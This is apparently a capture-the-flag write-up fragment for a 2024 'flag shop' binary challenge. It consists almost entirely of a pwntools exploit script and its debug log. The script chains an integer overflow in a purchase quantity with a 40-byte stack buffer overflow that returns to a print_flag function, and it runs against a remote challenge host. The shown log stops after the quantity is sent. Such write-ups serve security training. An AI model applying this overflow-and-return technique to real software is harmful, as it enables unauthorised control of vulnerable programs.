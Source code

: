 Solve Script:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

exe = './the-usual'
elf = context.binary = ELF(exe)
context.log_level = 'DEBUG'

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('35.94.129.106', 3008)
    else:
        return process([exe] + argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

io.sendlineafter(b'(1-5) ', b'3') # Choose Vuln Function
io.sendlineafter(b'? ', b'2147483648') # Overflow Int To Purchase Item

padding = 40 # Find From GDB
io.sendlineafter(
	b'? ', 
	flat({padding: elf.functions.print_flag}) # Return to print_flag
)
io.recvallS() # Profit
io.close()
```

```bash
└─$ py solve.py REMOTE
[*] '/home/woyag/Desktop/CTFs/vikectf/2024/misc/The Usual/the-usual'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 35.94.129.106 on port 3008: Done
[DEBUG] Received 0x1a bytes:
    b'Welcome to the flag shop!\n'
[DEBUG] Received 0x107 bytes:
    b'\n'
    b'Please make a selection:\n'
    b'1: A life-altering flag-themed quote, $10\n'
    b"2: A hand-typed, bespoke, artist's rendition of the flag, $45\n"
    b'3: An organic, custom-engraved flag stand, $130\n'
    b'4: The flag, $20,000\n'
    b'5: Exit\n'
    b'\n'
    b'Your balance is $100\n'
    b'What would you like to buy? (1-5) '
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Received 0x19 bytes:
    b'How many would you like? '
[DEBUG] Sent 0xb bytes:
    b'2147483648\n'
```